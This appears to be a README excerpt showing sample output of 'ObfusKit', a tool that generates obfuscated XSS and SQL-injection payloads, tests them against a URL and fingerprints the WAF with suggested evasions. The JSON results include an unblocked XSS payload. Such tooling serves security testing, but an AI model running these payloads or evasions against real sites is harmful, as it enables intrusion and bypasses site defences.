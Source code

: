 ```
URL: https://example.com/test

🔧 Generating payloads...
🔀 Processing multiple attack types: [xss sqli]
Generating payloads [████████████] 100.0% (50/50) ETA: 0s
✅ Generating payloads completed!

🌐 Testing payloads against URL...
Testing requests [████████████] 100.0% (150/150) ETA: 0s
✅ URL testing completed!

🧠 WAF Fingerprinting Results:
Detected WAF: Cloudflare
Confidence: 95%
Recommended evasions: unicode, html, mixed-case
```

### JSON Output
```json
{
  "metadata": {
    "timestamp": "2024-01-20T10:30:45Z",
    "tool": "ObfusKit",
    "version": "2.1.0"
  },
  "config": {
    "action": "send_to_url",
    "attack_type": "xss",
    "evasion_level": "medium",
    "target_url": "https://example.com/test"
  },
  "summary": {
    "total_payloads": 50,
    "total_variants": 150,
    "successful_tests": 12,
    "failed_tests": 138,
    "success_rate": 0.08
  },
  "request_results": [
    {
      "payload": "<img src=x onerror=alert(1)>",
      "url": "https://example.com/test",
      "method": "GET",
      "status_code": 200,
      "blocked": false,
      "response_time_ms": 245,
      "technique": "HTMLVariants",
      "part": "query"
    }
  ]
}
```
